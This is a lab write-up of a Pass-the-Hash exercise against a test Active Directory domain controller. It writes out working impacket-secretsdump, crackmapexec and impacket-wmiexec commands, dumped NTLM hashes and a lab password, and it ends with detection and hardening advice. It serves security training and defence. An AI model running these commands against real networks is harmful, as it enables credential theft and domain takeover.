





# Exercise 21 — Pass-the-Hash Attack (Active Directory)

**Date:** 31/03/2026
**Category:** Active Directory / Lateral Movement
**Tools:** Impacket, CrackMapExec
**Attacker:** Kali Linux — 192.168.56.102
**Target:** Windows Server 2022 Domain Controller — 192.168.56.105 (lab.local)

---

## Objective
Extract NTLM password hashes from a Windows Server 2022 Domain
Controller using impacket-secretsdump, then authenticate to the DC
using those hashes directly — without ever cracking them to plaintext
— demonstrating the Pass-the-Hash lateral movement technique and its
implications for Active Directory environments.

---

## Background
Pass-the-Hash (PtH) is a lateral movement technique that exploits how
Windows NTLM authentication works. When a user logs in, Windows stores
their password as an NTLM hash in memory. Critically, NTLM
authentication does not require the plaintext password — the hash
itself is sufficient to authenticate.

This means an attacker who obtains an NTLM hash — through secretsdump,
Mimikatz, or any other credential dumping technique — can authenticate
as that user across the network without needing to crack the hash first.
No cracking, no waiting, no GPU required.

The technique is particularly dangerous in Active Directory environments
where the same Administrator hash may be valid across dozens or hundreds
of machines — a single compromised hash can unlock the entire domain.

This exercise covers MITRE ATT&CK techniques:
- **T1003.002** — OS Credential Dumping: Security Account Manager
- **T1550.002** — Use Alternate Authentication Material: Pass the Hash
- **T1021.002** — Remote Services: SMB/Windows Admin Shares

---

## Lab Setup

Kali Linux and Windows Server 2022 DC booted and communicating on the
Host-Only network (192.168.56.x). Connectivity verified with ping and
IP configuration confirmed on both machines.

Clock synchronised before starting to avoid Kerberos errors:
```bash
sudo /usr/sbin/ntpdate 192.168.56.105
```

### Screenshot — Lab Setup: Kali and DC Running with Connectivity Verified


---

## Part A — Dumping NTLM Hashes with secretsdump

impacket-secretsdump was used to remotely dump all credential material
from the DC using the Administrator account:
```bash
impacket-secretsdump lab.local/Administrator:'Admin123'@192.168.56.105
```

| Flag | Meaning |
|---|---|
| `lab.local/Administrator` | Domain and username |
| `'Admin123'` | Administrator plaintext password — only needed once for this step |
| `@192.168.56.105` | Target DC IP |

**How it works:** secretsdump connects to the DC over SMB, starts the
RemoteRegistry service, reads the SAM database and NTDS.DIT (Active
Directory credential store), and dumps all hashes remotely. This is
the same technique used by attackers after gaining initial admin access
to a DC.

**Result:** Full credential dump including all domain accounts:

| Account | NTLM Hash |
|---|---|
| Administrator | e45a314c664d40a227f9540121d1a29d |
| jsmith | 2b576acbe6bcfda7294d6bd18041b8fe |
| sjones | 72f0eefcc213ea8f350773b831cf2c9c |
| svc-backup | de769e624bfe51cb4109255f0f1e0910 |
| krbtgt | 0f744ccc107b5f4902c1957a9e3fb42f |

Additionally, AES-256 and AES-128 Kerberos keys were extracted for
every account — usable for Pass-the-Ticket attacks in future exercises.

**Note:** The cleanup errors at the end of the output
(`KeyError: Cryptodome.Cipher.AES`) are a known impacket library
compatibility issue with no impact on the results — all hashes were
successfully extracted.

### Screenshot — Full secretsdump Output with NTLM Hashes


---

## Part B — Pass-the-Hash with CrackMapExec

The Administrator NTLM hash was used directly to authenticate to the
DC — no password cracking required:
```bash
crackmapexec smb 192.168.56.105 -u Administrator -H e45a314c664d40a227f9540121d1a29d
```

| Flag | Meaning |
|---|---|
| `smb` | Protocol — SMB on port 445 |
| `-u Administrator` | Target username |
| `-H` | NTLM hash to use for authentication |

**Result:** `[+] lab.local\Administrator (Pwn3d!)` — administrator-level
access confirmed using only the hash. The `Pwn3d!` indicator means
CrackMapExec can execute commands with SYSTEM privileges on the target.

### Screenshot — Administrator Hash Authentication — Pwn3d!


**Contrast — low privilege user hash:**

jsmith's hash was tested to demonstrate the difference between admin
and standard user access:
```bash
crackmapexec smb 192.168.56.105 -u jsmith -H 2b576acbe6bcfda7294d6bd18041b8fe
```

**Result:** `[+]` — authentication succeeded, but no `Pwn3d!`. jsmith
is a standard domain user — authenticated but no admin privileges.
This confirms PtH works for any account, but the impact depends on
the account's privilege level.

### Screenshot — jsmith Hash Authenticated but No Admin Access


---

## Part C — Interactive Shell via Pass-the-Hash

impacket-wmiexec was used to obtain a fully interactive command shell
on the DC using only the Administrator hash:
```bash
impacket-wmiexec -hashes :e45a314c664d40a227f9540121d1a29d Administrator@192.168.56.105
```

| Flag | Meaning |
|---|---|
| `-hashes :HASH` | LM:NT hash format — colon prefix required, LM portion left empty |
| `Administrator@192.168.56.105` | Target user and DC IP |

Once connected, domain admin access was confirmed:
```bash
whoami
net group "Domain Admins"
```

**Result:** Shell running as `lab\administrator`. Domain Admins group
membership confirmed — full domain compromise achieved using nothing
but a hash extracted from memory.

### Screenshot — Interactive Shell with Domain Admin Confirmed


---

## Attack Chain Summary
```
Administrator credentials used once to run secretsdump
    → All domain NTLM hashes extracted remotely
        → Administrator hash passed directly to CrackMapExec
            → Pwn3d! — admin access confirmed without cracking
                → jsmith hash tested — authenticated but no admin (contrast)
                    → wmiexec opens interactive shell using hash only
                        → Full domain admin access — no password ever cracked
```

---

## Real-World Relevance

**Pass-the-Hash is one of the most common lateral movement techniques
in real intrusions.** It is observed in the vast majority of enterprise
breaches where an attacker gains initial access to a Windows environment.
The reason is simple — it requires no additional exploitation, no
cracking time, and works silently over standard protocols.

**The same hash often works on multiple machines.** In environments
where local Administrator accounts share the same password (common in
organisations that haven't deployed LAPS), a single hash provides
access to every machine with that credential. This is how ransomware
operators move from a single compromised workstation to every machine
in a network within hours.

**No cracking required means no time delay.** Unlike Kerberoasting
(Exercise 15) which requires offline cracking, PtH is instant. An
attacker who dumps hashes at 9am can have domain admin by 9:01am.

**secretsdump is a detection opportunity.** The tool starts the
RemoteRegistry service, connects over SMB, and reads sensitive registry
hives — all of which generate Windows Event Log entries. Event IDs
4624 (logon), 4672 (special privileges), and 7036 (service state
change for RemoteRegistry) together form a detectable pattern.

**MITRE ATT&CK T1550.002** — Pass the Hash is documented as a
technique used by over 40 tracked threat groups including APT28,
APT29, FIN6, and Lazarus Group in real-world campaigns.

---

## Recommendation
- Deploy **Local Administrator Password Solution (LAPS)** — randomises
  the local Administrator password on every machine, eliminating the
  same-hash-everywhere problem that makes PtH so powerful
- Enable **Protected Users security group** for privileged accounts —
  forces Kerberos-only authentication and prevents NTLM hash caching
  for members, making PtH impossible for those accounts
- Disable **NTLM authentication** where possible and enforce Kerberos
  — reduces the attack surface significantly in modern AD environments
- Monitor **Event ID 4624 with Logon Type 3** (network logon) combined
  with **Event ID 4672** (admin privileges assigned) from unexpected
  source IPs — this pattern is characteristic of PtH lateral movement
- Alert on **RemoteRegistry service starting unexpectedly** — legitimate
  processes rarely start this service; its presence alongside SMB
  connections from a non-admin workstation is a high-confidence
  indicator of secretsdump or similar tooling
- Implement **tiered administration model** — separate admin accounts
  for workstations, servers, and domain controllers so a compromised
  workstation admin hash cannot reach the DC
